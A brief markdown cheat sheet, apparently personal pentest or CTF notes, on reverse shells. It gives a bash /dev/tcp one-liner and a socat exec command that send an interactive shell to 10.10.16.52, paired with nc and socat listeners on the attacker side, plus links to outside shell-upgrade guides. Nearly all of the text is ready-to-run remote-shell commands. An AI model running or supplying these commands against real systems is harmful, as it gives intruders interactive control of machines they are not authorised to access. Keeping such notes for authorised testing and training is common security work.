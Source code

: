 # Reverse-Shells

https://highon.coffee/blog/reverse-shell-cheat-sheet/

## Bash

### target

    bash -i >& /dev/tcp/10.10.16.52/81 0>&1

### attack machine

    nc -lvp 4444


## better shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

socat binary see https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64

### target
    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.52:4444

### attack machine
    socat file:`tty`,raw,echo=0 tcp-listen:4445
